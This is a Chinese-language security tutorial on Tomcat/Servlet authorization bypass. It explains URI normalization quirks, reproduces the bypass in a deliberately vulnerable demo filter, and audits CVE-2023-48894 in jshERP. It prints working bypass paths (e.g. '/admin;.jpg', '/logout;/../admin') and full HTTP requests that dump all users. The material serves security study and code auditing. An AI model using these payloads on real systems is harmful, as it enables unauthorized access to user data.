# Servlet-鉴权绕过

## 0x 01 前置基础

Tomcat中间件解析URI特性：

- 在URL中遇到`;`符号，Tomcat会自动将`;xxxx/`的分号与斜杠之间的字符串以及分号本身都去掉，原因是`;`符号被定义为 路径参数（Path Parameters / Matrix Parameters）分隔符，主要用于给 路径段（path segment）附加参数，例如常见的场景有`/login.jsp;jsessionid=xxxxxxxx`。

- 斜杠`/`处理，Tomcat中间件会自动将多余的斜杠去除，例如访问`//login`，最后会映射到路径还是`/login`。
- `./`和`../`处理，`./`会被默认删除掉，而`../`会进行跨目录处理。


## 0x 02 Servlet 常见获取URL方法

在使用`Servlet`组件进行开发过程中，编写`Fliter`拦截器过程中通常会使用下面三种方法获取请求包中的URL路径。

- `req.getRequestURI`
- `req.getRequestURL`
- `req.getServletPath`

| 方法名 | 是否包含协议/主机 | 是否自动处理`;` | 是否自动处理`//` | 是否自动处理`./`和`../` |         主要用途         |
| :------: | :-----------------: | :------------: | :------------: | :--------------: | :-------------------------: |
|    `getRequestURI`    |        ❌        |      ❌      |      ❌      |       ❌       |       原始请求路径       |
|    `getRequestURL`    |        ✅        |      ❌      |      ❌      |       ❌       |       完整访问 URL       |
|    `getServletPath`    |        ❌        |      ✅      |      ✅      |       ✅       | 实际匹配到的 Servlet 路径 |

编写一个测试Demo来区分这三个方法：

```java
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        HttpServletResponse resp = (HttpServletResponse) servletResponse;
        String requestURI = req.getRequestURI();    //
        StringBuffer requestURL = req.getRequestURL();
        String servletPath = req.getServletPath();
        resp.getWriter().print("requestURI:"+requestURI+"\n");
        resp.getWriter().print("requestURL:"+requestURL.toString()+"\n");
        resp.getWriter().print("servletPath:"+servletPath+"\n");
}
```

访问`http://localhost:8080/admin/;xxxx//login`就可以很直观的反映出这三个方法最后解析出来的URL。



## 0x 03 漏洞原理

Servlet 鉴权绕过本质上是Web 容器（Tomcat）对于URL路径的解析处理方式与Web Servlet对路径路由匹配处理方式不一致导致的权限绕过。Web 容器（如 Tomcat）在处理请求时，会先对 URL 进行规范化，用于 Servlet 映射与资源定位；而应用层在进行鉴权时，往往直接基于字符串形式的请求路径做判断。如果两者使用的路径来源不同，就可能出现“容器认为访问的是受保护资源，而应用却未正确拦截”的情况。

## 0x 04 漏洞复现

### 环境搭建

编写简单的Demo进行漏洞复现

项目导入Tomcat下的lib依赖，里面默认有Servlet依赖jar包



以及简单的配置Tomcat环境，就不多说了，这里使用的是Tomcat9.0.112，不同版本的Tomcat解析可能会有区别。



简单的配置项目为Web项目后，新建`admin`类作为需要权限访问的路由，外加一个`filter`类作为Service层的拦截器。



```java
package org.Controller;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

@WebServlet("/admin")
public class admin extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {

    }
    @Override
    protected void service(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.service(req, resp);
        resp.getWriter().print("Hello Admin!");
    }

    @Override
    public void destroy() {
        System.out.println("destroy");
    }

    @Override
    public void init() throws ServletException {
        System.out.println("init");
    }
}

```

```java
package org.Controller;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

@WebFilter("/*")
public class filter implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("Filter init");
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        HttpServletResponse resp = (HttpServletResponse) servletResponse;
        String requestURI = req.getRequestURI();    //
        StringBuffer requestURL = req.getRequestURL();
        String servletPath = req.getServletPath();
        resp.getWriter().print("requestURI:"+requestURI+"\n");
        resp.getWriter().print("requestURL:"+requestURL.toString()+"\n");
        resp.getWriter().print("servletPath:"+servletPath+"\n");
        if(requestURI.endsWith(".js")||requestURI.endsWith(".css")||requestURI.endsWith(".jpg")||requestURI.endsWith(".png")
                ||requestURI.endsWith(".ico")) {
            filterChain.doFilter(servletRequest, servletResponse);
        }else {
            resp.getWriter().print("Fuck You!");
        }
//        if (requestURI.indexOf("logout")==1){
//            filterChain.doFilter(servletRequest, servletResponse);
//        }else {
//            resp.getWriter().print("Fuck You!");
//        }

    }

    @Override
    public void destroy() {
        System.out.println("Filter destroy");
    }
}

```


### 常见漏洞点分析

#### 漏洞场景1

通常开发在设置拦截器会把前端静态资源，例如`.js`、`.css`、`.jpg`、`.png`等资源文件进行放行处理，因为这些文件不需要进行其他业务处理。

这里模拟编写了一段代码进行拦截：



这里简单说明一下，Servlet 中 `Filter`的执行采用责任链模式，类似递归调用，`FilterChain.doFilter()`会将请求传递给下一个 Filter，若不存在后续 Filter，则直接进入目标 `Servlet`。由于没有其他拦截器或鉴权逻辑进行二次校验，所以这里调用 `filterChain.doFilter()` 实际等价于放行请求。

默认直接访问`http://localhost:8080/admin`的话是会被`Filter`拦截的。



> http://localhost:8080/admin;.jpg

使用`;`符号可以成功绕过，大致过程为：

> Tomcat 接收请求 → 进入 Filter 链 → Tomcat 做 Servlet 映射 → Servlet 执行

Tomcat接收到URL路径为`/admin;.jpg`，直接先原封不动的转发给`Filter`拦截器，`Filter`拦截器校验的路径是`/admin;.jpg`，发现是以`.jpg`结尾，在代码逻辑中可以直接放行，这里鉴权已经被绕过了。Tomcat再做对Servlet 的路由映射，将`/admin;.jpg`进行解析，前面有提到Tomcat会把`;`后面的字符抛弃(简单理解,因为这里后面没有其他`/`了)，最后匹配到Servlet路径为`/admin`成功访问到权限限制路径。



#### 漏洞场景2

开发对某一些特定路径进行前缀匹配，通常是`login`、`index`、`logout`等这一类不需要登录或者登录验证的路由进行匹配。



这里如果直接使用浏览器访问，浏览器会自动跳转解析处理`../`，自动跳转到`/admin`，导致无法绕过。

> http://localhost:8080/logout;/../admin

使用抓包工具访问`/logout;/../admin`可以看到成功绕过，甚至可以在`;xxxxxx/`中添加任意填充字符来绕过waf拦截匹配特征。






### 漏洞挖掘要点

1. 确认拦截器的拦截范围
2. 是否使用了鉴权逻辑
3. 是否使用的是Tomcat容器
4. 是否使用存在Servlet鉴权绕过的方法获取URL
5. 是否存在xxx路径放行或者允许静态文件放行

6. 判断依旧是否为xxx包含在URL内

## 0x 05 实战代码审计

### CVE-2023-48894

在`com.jsh.erp.filter`包下`LogCostFilter`类中使用了`getRequestURI`方法获取URL，并且使用了Tomcat作为默认Spring启动容器，存在放行路由：

- `/user/login`
- `/user/register`
- `/user/logout`
- `/function/findMenuByPNumber`
- `/doc.html`

但是在处理`/user/logout`和`/function/findMenuByPNumber`路由之前，`servletResponse.setStatus(500);`，服务器会直接抛出500.



```
GET /user/logout/../../jshERP-boot/user/getAllList HTTP/1.1
Host: 192.168.1.7:9999
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7


```



在用户管理路由下存在可以获取全部用户路由`/user/getAccount`，可以构造出payload

> /user/register/../../jshERP-boot/user/getAllList
>
> /user/login/../../jshERP-boot/user/getAllList



```
GET /user/register/../../jshERP-boot/user/getAllList HTTP/1.1
Host: 192.168.1.7:9999
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7


```



```
GET /user/login/../../jshERP-boot/user/getAllList HTTP/1.1
Host: 192.168.1.7:9999
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7


```




# Ref

https://mp.weixin.qq.com/s/dxJkQn671J64UzKilyKsug

https://cloud.tencent.com/developer/article/1659416

https://www.bilibili.com/video/BV1dE1FBuE7C/?spm_id_from=333.1387.homepage.video_card.click&vd_source=b4e669c0a21aa5080d80d089cd44bc4f

https://www.cve.org/CVERecord?id=CVE-2023-48894

https://github.com/jishenghua/jshERP/issues/98